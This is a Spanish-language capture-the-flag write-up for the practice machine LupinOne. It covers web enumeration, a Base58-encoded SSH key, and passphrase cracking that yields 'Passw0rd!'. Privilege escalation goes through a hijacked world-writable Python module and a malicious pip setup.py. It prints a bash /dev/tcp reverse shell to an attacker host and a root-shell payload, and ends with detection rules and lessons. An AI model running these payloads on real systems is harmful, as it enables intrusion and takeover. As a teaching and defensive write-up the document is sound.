# LupinOne

| Campo | Valor |
|---|---|
| **Plataforma** | Empresa · LupinOne (reto del «gentleman thief») |
| **Sistema** | Debian 11 (kernel 5.10.0-8) · Apache 2.4.40 · OpenSSH 8.2p1 |
| **Dificultad** | media |
| **Fecha** | 2026-10-27 |
| **Tiempo** | ~40 minutos |

- **Técnicas:** T1595.002 · T1046 · T1083 · T1552.004 · T1110.002 · T1078 · T1548.003 · T1574 · T1059.006
- **Flag de root:** `3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}`

> Máquina de práctica ya retirada. Las credenciales se explican con el procedimiento que las
> obtiene: quien quiera reproducirla llega a ellas con los mismos pasos.

## Resumen

La web esconde un directorio con forma de directorio de usuario de Apache (`/~secret/`) que solo
aparece al enumerar con `ffuf`. Dentro hay un mensaje firmado por `icex64` que comparte su clave
privada y avisa de que la passphrase cae con `fasttrack`; el fichero es un **oculto**
(`.mysecret.txt`) codificado en Base 58. Con `icex64` dentro, `sudo` permite ejecutar un script de
Python de `arsene`, y el módulo `webbrowser` del sistema es **escribible por cualquiera**: se inyecta
una reverse shell y se pasa a `arsene`. Él puede ejecutar `pip` como root, y un paquete con un
`setup.py` malicioso cierra la escalada.

**Dos usuarios y ningún exploit**: `icex64`, luego `arsene`, luego root. Permisos mal puestos y una
clave privada publicada «para que no la encuentren».

## Reconocimiento

Barrido de la red para localizar la máquina:

```bash
sudo netdiscover -r 192.168.217.0/24
```

Cuatro hosts en la red de laboratorio; el objetivo es **192.168.217.131**.



Escaneo completo de servicios:

```bash
nmap -sC -sV -p- <IP-objetivo>
```

Dos servicios y dos avisos:

- **22/tcp** — OpenSSH 8.2p1 (paquete de Ubuntu).
- **80/tcp** — Apache httpd **2.4.40** (Ubuntu).
- `http-robots.txt`: una entrada en *disallow*.
- `http-enum`: **`/myfiles/`**, «potentially interesting directory».



La web está tematizada como Arsène Lupin, el ladrón de guante blanco.

## El señuelo y las dos enumeraciones

Se prueba el directorio que anuncia el escaneo, con forma de directorio de usuario:

```
http://<IP-objetivo>/~myfiles/
```

Y da **404**: es un señuelo. La ruta real existe, pero hay que encontrarla enumerando.

### Primera enumeración: el directorio

El patrón correcto es `~nombre`, así que se fuzzea sobre esa forma:

```bash
sudo ffuf -c -w common.txt -u 'http://<IP-objetivo>/~FUZZ'
```

Devuelve **`secret`** con un **301**: el directorio es **`/~secret/`**.



### El mensaje

Dentro, un mensaje que lo pone en bandeja: comparte su clave privada SSH, avisa de que el fichero
está «escondido en algún sitio de aquí» y de que la passphrase se puede crackear con **fasttrack**.



### Segunda enumeración: el fichero oculto

«Escondido» es literal: es un fichero con punto delante. Se enumeran dotfiles dentro del directorio
y se añaden extensiones:

```bash
sudo ffuf -c -ic \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -u 'http://<IP-objetivo>/~secret/.FUZZ' -fc 403 -e .txt,.html
```

Encuentra **`.mysecret.txt`** con un `200` y 6.689 bytes.



## El fichero y la clave

Se abre el fichero antes de tocar ninguna herramienta de descifrado:

```bash
curl http://<IP-objetivo>/~secret/.mysecret.txt
```

Contiene un bloque de texto largo que no es base64 ni nada legible.



Con el contenido en la mano se identifica: el identificador de cifrados lo resuelve como
**Base 58**.



Al decodificarlo aparece una **clave privada OpenSSH** completa, que se guarda como `sshkey`.



La clave se guarda en un fichero para poder usarla con SSH.



> Base 58 no es cifrado, es codificación: este paso no necesita cracking.

## De la clave al usuario

La clave está protegida con passphrase. Se convierte al formato de john y se ataca con la lista que
trae Kali:

```bash
locate ssh2john
sudo /usr/bin/ssh2john sshkey > ssh2john
```



```bash
john --wordlist=/usr/share/wordlists/fasttrack.txt ssh2john
```

La passphrase cae en el acto: **`Passw0rd!`**. No hay truco ni pista: es una contraseña de lista,
y el aviso de `fasttrack` en el mensaje era literal.



```bash
sudo ssh -i sshkey icex64@<IP-objetivo>
```

Entra como **icex64** en Debian 11 (kernel 5.10.0-8), con el último acceso desde la IP atacante.



## De icex64 a arsene

Primera comprobación de siempre:

```bash
sudo -l
# User icex64 may run the following commands on LupinOne:
#     (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```



El script abre una web con la librería `webbrowser`:

```python
import webbrowser
print ("Its not yet ready to get in action")
webbrowser.open("https://empirecybersecurity.co.mz")
```



Y ahí está el fallo: el módulo del sistema es **escribible por cualquiera**.

```bash
find / -type f -perm 777 2> /dev/null
# /usr/lib/python3.9/webbrowser.py
```



Se edita para que, al importarlo, devuelva una shell al atacante:

```python
os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-atacante>/1234 0>&1'")
```



Se escucha en el puerto y se lanza el script con los permisos de `arsene`:

```bash
nc -lvp 1234
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```



La conexión llega desde la propia máquina y deja una shell como **arsene**, en el home de `icex64`.

Dentro, `cat note.txt` explica el contexto que el autor dejó escrito:

> Hi my friend Icex64, can you please help check if my code is secure to run, I need to use for my
> next heist. I dont want to anyone else get inside it, because it can compromise my account and find
> my secret file.





## De arsene a root

```bash
sudo -l
# User arsene may run the following commands on LupinOne:
#     (root) NOPASSWD: /usr/bin/pip
```



`pip` es de los binarios clásicos de GTFOBins: instala un paquete y ejecuta su `setup.py` **con los
permisos de quien lanza la orden**, que aquí es root. Un paquete vacío con una línea basta:

```bash
TF=/tmp/tmp.crt
mkdir -p $TF
echo "import os; os.system('sh </dev/tty >/dev/tty 2>/dev/tty')" > $TF/setup.py
sudo pip install $TF
```



La shell que abre `setup.py` ya es de **root**:

```bash
# whoami
root
# cd /root && ls
root.txt
# cat root.txt
```



## Qué vería un SOC

| Señal | Dónde se ve | Regla mínima |
|---|---|---|
| Dos enumeraciones seguidas en segundos | Log de Apache: cientos de 404 desde una IP | ≥ 50 404/min desde una IP → nivel 8 |
| Acceso a `/~secret/.mysecret.txt` | Log de Apache con `200` sobre un dotfile | Descarga de rutas con punto y «secret» → nivel 10 |
| Clave privada descifrada y usada | `auth.log`: login SSH con clave desde una IP nueva | Clave nueva o IP nueva sobre cuenta crítica → nivel 10 |
| `sudo -u arsene python3.9 heist.py` | `auth.log` / audit | Ejecución de intérprete con `sudo` → nivel 9 |
| Módulo del sistema modificado | FIM | Cambio en `/usr/lib/python3*/` → nivel 12 |
| `pip install` como root | Log de proceso + FIM | `sudo pip install` fuera de mantenimiento → nivel 10 |

Las dos enumeraciones son lo único ruidoso en red. Los dos saltos de usuario se detectan por
**integridad** y **auditoría de sudo**, no por tráfico.

## Lecciones

- **Una clave privada no se comparte, ni «escondida»**: en una ruta adivinable y con una codificación
  que se identifica en un minuto, es una cuenta regalada.
- **`777` en un módulo del sistema es una puerta trasera involuntaria**: cualquier proceso que lo
  importe ejecuta lo que otro haya escrito.
- **`sudo` sobre `pip` equivale a `sudo` sobre el intérprete**: si puede instalar, puede ejecutar.
- **Dos usuarios no hacen una máquina difícil, hacen una máquina mal configurada**: ninguna de las
  dos elevaciones usó un exploit, solo permisos y una contraseña de lista.
